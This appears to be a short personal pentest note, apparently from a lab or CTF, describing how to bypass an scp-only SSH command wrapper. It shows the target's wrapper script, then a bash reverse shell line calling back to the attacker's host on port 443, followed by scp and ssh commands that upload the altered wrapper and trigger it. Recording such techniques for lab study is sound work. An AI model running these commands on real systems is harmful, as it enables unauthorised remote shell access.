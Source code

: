 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Overwrite files on target (sshd_config)

Source code retrieved from target:

```
#!/bin/bash

case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Notice "scp" is just a system command, so let's replace that line with a reverse shell:

```bash - kali
bash -i >& /dev/tcp/$KALI/443 0>&1
```

```bash - kali
scp -i id_rsa ../scp_wrapper.sh $USER@$TARGET:/home/$USER
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
